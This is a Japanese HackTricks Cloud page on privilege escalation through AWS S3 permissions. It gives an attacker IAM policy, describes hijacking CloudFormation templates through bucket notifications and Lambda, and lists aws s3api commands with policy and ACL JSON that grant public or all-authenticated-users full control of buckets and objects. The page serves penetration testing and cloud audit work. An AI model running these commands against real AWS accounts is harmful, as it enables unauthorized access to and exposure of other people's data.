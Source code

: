 # AWS - S3特権昇格

<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* もし、あなたの**会社をハックトリックで宣伝したい**場合や、**最新版のPEASSやHackTricksをPDFでダウンロード**したい場合は、[**SUBSCRIPTION PLANS**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>

## S3

### `s3:PutBucketNotification`, `s3:PutObject`, `s3:GetObject`

これらの権限を持つ攻撃者は、興味深いバケット上でリソースを乗っ取り、特権を昇格させることができるかもしれません。

例えば、"cf-templates-nohnwfax6a6i-us-east-1"という名前の**クラウドフォーメーションバケット**に対してこれらの権限を持つ攻撃者は、デプロイを乗っ取ることができます。アクセスは以下のポリシーで与えることができます：
```json
{
"Version":"2012-10-17",
"Statement":[
{
"Effect":"Allow",
"Action":[
"s3:PutBucketNotification",
"s3:GetBucketNotification",
"s3:PutObject",
"s3:GetObject"],
"Resource":[
"arn:aws:s3:::cf-templates-*\/*",
"arn:aws:s3:::cf-templates-*"]
},
{
"Effect":"Allow",
"Action":"s3:ListAllMyBuckets",
"Resource":"*"
}]
}
```
そして、ハイジャックは、テンプレートがバケットにアップロードされてからテンプレートが展開されるまでの**短い時間枠**があるため可能です。攻撃者は、自分のアカウントで**バケット通知が送信されたときにトリガーされる****Lambda関数**を作成し、その**バケット**の**コンテンツ**を**ハイジャック**することができます。

![](<../../../.gitbook/assets/image (18) (1) (1).png>)

Pacuモジュール[`cfn__resouce_injection`](https://github.com/RhinoSecurityLabs/pacu/wiki/Module-Details#cfn\_\_resource\_injection)を使用すると、この攻撃を自動化することができます。\
詳細については、元の研究を参照してください：[https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/](https://rhinosecuritylabs.com/aws/cloud-malware-cloudformation-injection/)

### `s3:PutObject`、`s3:GetObject` <a href="#s3putobject-s3getobject" id="s3putobject-s3getobject"></a>

これらは、S3にオブジェクトを**取得およびアップロードするための権限**です。AWS内外のいくつかのサービスは、S3ストレージを使用して**設定ファイル**を保存しています。\
これらに**読み取りアクセス**がある攻撃者は、それらから**機密情報**を見つけるかもしれません。\
これらに**書き込みアクセス**がある攻撃者は、データを**改ざんしてサービスを悪用し、特権をエスカレーションしようとする**ことができます。\
以下にいくつかの例を示します：

* EC2インスタンスがS3バケットに**ユーザーデータを保存している**場合、攻撃者はそれを変更して**EC2インスタンス内で任意のコードを実行**することができます。

### `s3:PutBucketPolicy`

この権限を持つ攻撃者（**同じアカウントである必要があります**。そうでない場合、エラー`The specified method is not allowed will trigger`が発生します）は、バケットに対してより多くの権限を自分自身に付与することができ、バケットの読み取り、書き込み、変更、削除、公開が可能になります。
```bash
# Update Bucket policy
aws s3api put-bucket-policy --policy file:///root/policy.json --bucket <bucket-name>
##JSON policy example
{
"Id": "Policy1568185116930",
"Version": "2012-10-17",
"Statement": [
{
"Sid": "Stmt1568184932403",
"Action": [
"s3:ListBucket"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome",
"Principal": "*"
},
{
"Sid": "Stmt1568185007451",
"Action": [
"s3:GetObject"
],
"Effect": "Allow",
"Resource": "arn:aws:s3:::welcome/*",
"Principal": "*"
}
]
}
```
### `s3:GetBucketAcl`, `s3:PutBucketAcl`

これらの権限を悪用することで、攻撃者は特定のバケットに対して**より多くのアクセス権限を与える**ことができます。\
攻撃者は同じアカウントである必要はありません。さらに、書き込みアクセス権限も必要ありません。
```bash
# Update bucket ACL
aws s3api get-bucket-acl --bucket <bucket-name>
aws s3api put-bucket-acl --bucket <bucket-name> --access-control-policy file://acl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectAcl`

これらの権限を悪用することで、攻撃者はバケット内の特定のオブジェクトに対してより多くのアクセス権を付与することができます。
```bash
# Update bucket object ACL
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --access-control-policy file://objacl.json

##JSON ACL example
## Make sure to modify the Owner’s displayName and ID according to the Object ACL you retrieved.
{
"Owner": {
"DisplayName": "<DisplayName>",
"ID": "<ID>"
},
"Grants": [
{
"Grantee": {
"Type": "Group",
"URI": "http://acs.amazonaws.com/groups/global/AuthenticatedUsers"
},
"Permission": "FULL_CONTROL"
}
]
}
## An ACL should give you the permission WRITE_ACP to be able to put a new ACL
```
### `s3:GetObjectAcl`, `s3:PutObjectVersionAcl`

これらの権限を持つ攻撃者は、特定のオブジェクトバージョンに Acl を設定できることが期待されます。
```bash
aws s3api get-object-acl --bucket <bucekt-name> --key flag
aws s3api put-object-acl --bucket <bucket-name> --key flag --version-id <value> --access-control-policy file://objacl.json
```
<details>

<summary><strong>ハックトリックをサポートして特典を得る！</strong></summary>

* **HackTricksで会社を宣伝したい**場合や、**最新バージョンのPEASSにアクセスしたい**場合、またはHackTricksをPDFでダウンロードしたい場合は、[**サブスクリプションプラン**](https://github.com/sponsors/carlospolop)をチェックしてください！
* [**公式PEASS＆HackTricksグッズ**](https://peass.creator-spring.com)を手に入れましょう
* [**The PEASS Family**](https://opensea.io/collection/the-peass-family)を見つけて、独占的な[**NFT**](https://opensea.io/collection/the-peass-family)のコレクションを発見しましょう
* 💬 [**Discordグループ**](https://discord.gg/hRep4RUj7f)または[**Telegramグループ**](https://t.me/peass)に参加するか、**Twitter**で私をフォローしましょう 🐦 [**@carlospolopm**](https://twitter.com/carlospolopm)
* **ハッキングのトリックを共有するために、PRを** [**HackTricks**](https://github.com/carlospolop/hacktricks) **および** [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) **のGitHubリポジトリに提出してください。**

</details>
